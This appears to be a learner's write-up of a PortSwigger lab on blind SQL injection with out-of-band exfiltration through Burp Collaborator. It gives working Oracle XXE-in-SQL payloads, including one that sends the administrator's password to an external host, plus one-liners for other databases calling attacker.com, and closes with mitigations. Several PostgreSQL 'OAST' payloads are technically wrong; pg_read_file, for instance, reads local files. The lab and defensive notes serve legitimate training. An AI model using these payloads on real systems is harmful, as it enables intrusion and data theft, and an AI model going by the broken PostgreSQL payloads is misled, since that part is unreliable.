

# Lab 17: Blind SQL Injection with Out-of-Band Data Exfiltration

## Category
SQL Injection - Blind SQLi (OAST)

## Vulnerability Summary
This lab demonstrates **out-of-band (OAST)** SQL injection — a technique where the attacker receives data from the database through external channels (DNS/HTTP requests) rather than seeing results directly in the response. This is crucial when:
- The application doesn't display SQL errors
- Response content doesn't change based on injection
- Time-based techniques are rate-limited or monitored

## Attack Methodology

### Step 1: Understanding the Challenge
The lab uses a PostgreSQL or Oracle backend. The goal is to trigger an **out-of-band interaction** using SQL injection — making the database server connect to an external server we control.

### Step 2: Setting Up Burp Collaborator
1. Opened **Burp Suite** → **Collaborator** tab
2. Clicked **Copy to clipboard** to get my unique Collaborator payload
3. This gives a unique subdomain like: `fp84cs90zmg4rnr3zdnb7p6vlmrdf43t.oastify.com`

### Step 3: Crafting the OAST Payload
The key insight: I need to make the database perform a **DNS lookup** or **HTTP request** to my Collaborator domain.

For **Oracle databases**, the payload uses `EXTRACTVALUE` with `xmltype`:

```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-COLLAB-ID.oastify.com/"> %remote;]>'), '') FROM dual--
```

### Step 4: Breaking Down the Payload

| Component | Purpose |
|-----------|---------|
| `'` | Closes the existing string context |
| `UNION SELECT` | Combines our query with the original |
| `EXTRACTVALUE(xmltype(...))` | Oracle function to parse XML |
| `<!DOCTYPE root [ <!ENTITY % remote SYSTEM "...">` | XXE (XML External Entity) definition |
| `http://YOUR-COLLAB-ID.oastify.com/` | Our Burp Collaborator server |
| `%remote;` | Triggers the external entity lookup |
| `FROM dual--` | Oracle's dummy table + comment |

### Step 5: Sending the Request
1. Sent the modified request to **Repeater**
2. Replaced the `TrackingId` cookie value with our payload
3. Clicked **Send**

### Step 6: Checking for Interactions
1. Went to **Burp Collaborator** tab
2. Clicked **Poll now**
3. Saw **DNS** and **HTTP** interactions appear! 🎉

**Collaborator interactions captured:**
```
DNS Query: fp84cs90zmg4rnr3zdnb7p6vlmrdf43t.oastify.com
Source IP: 3.248.180.66
Time: 2026-Mar-25 18:07:42.655 UTC
```

### Step 7: Lab Solved
The database server made DNS/HTTP requests to our Collaborator domain, proving the SQL injection works.



## Technical Root Cause

### Why This Works

The application is vulnerable to **UNION-based SQL injection** with **XXE-triggered OAST**:

```sql
-- Original query (simplified)
SELECT * FROM products WHERE tracking_id = '[USER_INPUT]'

-- Injected query
SELECT * FROM products WHERE tracking_id = ''
UNION
SELECT EXTRACTVALUE(xmltype('<?xml ... <!DOCTYPE ... SYSTEM "http://attacker.com/"> ...>'), '') FROM dual--
```

### The XXE + OAST Chain

1. **XXE (XML External Entity):** We define an external entity that points to our server
2. **XML Parsing:** Oracle's `xmltype()` parses our malicious XML
3. **Entity Resolution:** The parser tries to resolve `%remote;` by fetching the URL
4. **DNS/HTTP Request:** Database server makes outbound connection to our Collaborator
5. **Detection:** Burp captures the interaction, confirming the injection

### Why OAST Matters

| Scenario | Traditional SQLi | OAST SQLi |
|----------|------------------|-----------|
| No error messages | ❌ Fails | ✅ Works |
| No visible output | ❌ Fails | ✅ Works |
| WAF blocking |  Detected | ✅ May bypass |
| Blind (no time-based) | ❌ Slow | ✅ Fast detection |
| Data exfiltration | ⚠️ Character-by-character | ✅ Full data in one request |

## Impact

- **Firewall Bypass:** OAST can bypass WAFs that block error-based and time-based payloads
- **Fast Exploitation:** No need for slow character-by-character extraction
- **Network Reconnaissance:** Attacker can map internal network from database server
- **Data Exfiltration:** Sensitive data can be sent directly to attacker's server
- **SSRF Chaining:** Can chain with Server-Side Request Forgery for internal network access

## Proof of Concept

### Oracle OAST Payloads

**Basic HTTP Request:**
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-ID.oastify.com/"> %remote;]>'), '') FROM dual--
```

**DNS Lookup Only:**
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-ID.oastify.com/"> %remote;]>'), '') FROM dual--
```

**With Data Exfiltration:**
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0"?><!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://YOUR-ID.oastify.com/?data='||(SELECT password FROM users WHERE username='administrator')||'"> %remote;]>'), '') FROM dual--
```

### PostgreSQL OAST Payloads (for reference)

**Using pg_read_file:**
```sql
' || (SELECT pg_read_file('YOUR-ID.oastify.com', 1, 1)) --
```

**Using COPY command:**
```sql
'; COPY (SELECT 'test') TO '\\YOUR-ID.oastify.com\share' --
```

**Using dblink:**
```sql
'; SELECT dblink_connect('host=YOUR-ID.oastify.com user=postgres') --
```

## My Key Takeaways

1. **OAST is a Game-Changer:** This lab showed me that blind SQLi doesn't have to be slow. Out-of-band techniques can confirm vulnerabilities in seconds.

2. **XXE + SQLi = Powerful:** Combining XXE with SQL injection creates a powerful OAST vector, especially on Oracle databases.

3. **Burp Collaborator is Essential:** Having a built-in OAST server makes testing so much easier. No need to set up external DNS/HTTP servers.

4. **Database Fingerprinting Matters:** Knowing it's Oracle (from previous labs) helped me craft the right payload immediately.

5. **The Payload Structure:**
   ```
   Oracle: EXTRACTVALUE(xmltype('<!DOCTYPE ... SYSTEM "http://attacker.com/">'))
   PostgreSQL: pg_read_file('attacker.com', 1, 1)
   MySQL: LOAD_FILE('http://attacker.com/')
   MSSQL: xp_dirtree '\\attacker.com\share'
   ```

6. **Real-World Relevance:** OAST techniques are used in bug bounties all the time — especially when traditional methods fail.

## Mitigation

### 1. Parameterized Queries (Most Effective)
```java
// ❌ Bad - String concatenation
String query = "SELECT * FROM sessions WHERE tracking_id = '" + trackingId + "'";

// ✅ Good - Parameterized
PreparedStatement stmt = conn.prepareStatement(
    "SELECT * FROM sessions WHERE tracking_id = ?");
stmt.setString(1, trackingId);
```

### 2. Disable Outbound Connections from Database
- Block database servers from making external HTTP/DNS requests
- Use firewall rules to restrict outbound traffic
- Disable features like `UTL_HTTP`, `DBMS_LDAP` in Oracle

### 3. Input Validation
- Validate tracking IDs against expected format (alphanumeric only)
- Reject input containing XML special characters (`<`, `>`, `&`, `!`)
- Block SQL keywords and UNION statements

### 4. WAF Rules
- Detect and block XXE patterns in input
- Block requests containing `SYSTEM`, `DOCTYPE`, `ENTITY`
- Rate limit requests to slow down automated attacks

### 5. Principle of Least Privilege
- Database user shouldn't have permissions for external network access
- Disable Oracle packages like `UTL_HTTP`, `UTL_TCP`, `DBMS_LDAP`
- Remove unnecessary database features

## References
- [PortSwigger OAST SQLi Lab](https://portswigger.net/web-security/sql-injection/blind/lab-oast)
- [Burp Collaborator Documentation](https://portswigger.net/burp/documentation/collaborator)
- [OWASP Blind SQLi](https://owasp.org/www-community/attacks/Blind_SQL_Injection)
- [XXE Injection - PortSwigger](https://portswigger.net/web-security/xxe)

---

**Payload Used:**
```sql
' UNION SELECT EXTRACTVALUE(xmltype('<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [ <!ENTITY % remote SYSTEM "http://fp84cs90zmg4rnr3zdnb7p6vlmrdf43t.oastify.com/">
%remote;]>'), '') FROM dual--
```

**Collaborator ID:** `fp84cs90zmg4rnr3zdnb7p6vlmrdf43t.oastify.com`

---
*Lab completed on: 2026-03-25*
